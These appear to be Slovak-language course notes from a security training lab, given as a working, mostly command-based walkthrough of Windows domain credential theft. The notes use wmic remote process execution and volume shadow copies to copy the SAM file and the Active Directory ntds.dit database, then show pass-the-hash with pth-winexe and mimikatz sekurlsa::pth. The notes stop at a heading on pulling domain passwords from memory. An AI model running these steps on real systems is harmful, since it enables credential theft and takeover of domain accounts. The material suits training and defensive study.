 # vzdialene spúštanie, zálohy AD

vypis writorov: vssadmin list writers

list metod cez wmiexplorer.exe  
wmic path win32_process call create commandline=calc.exe  
wmic path win32_process where processid="5412" get caption,processid,sessionid  

vzdialene:  
wmic /node:"STUDENT06-05" path win32_process call create commandline=calc.exe

## shadow copy

copy c:\windows\system32\config\SAM e:\  
nefunguje lebo subor je otvoreny

wmic path win32_shadowcopy call create volume=c:\  

```
Executing (win32_shadowcopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{A52DDA89-7C38-4984-9157-E9AE43F055E5}";
};
```

wmic path win32_shadowcopy where id="{A52DDA89-7C38-4984-9157-E9AE43F055E5}" get deviceobject
```
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SAM e:\

wmic /node:%logonserver:vlnovka2% path win32_process call create "cmd /c copy \\?\GLOBALROOT\DeviceHarddiskVolumeShadowcopy2\windows\ntds\ntds.dit c:\"

### použitie hashu

Linux verzia:  
winexe -U domena/uzivatel%Heslo //10.0.0.40 cmd

crack hashu netreba - staci pouzit hash  
LM hash je zbytocny - moze sa pouzit lubovolny string v spravnom formate  
pth-winexe -U domena/uzivatel%LMHash:NTHash //10.0.0.40 cmd  

na windowse:  
mimikatz
```
privilege:debug
sekurlsa::pth /user:pthdemo /domain:ceh /ntlm:nthashblablabla /run:cmd
```

### domenove heslá z ramky
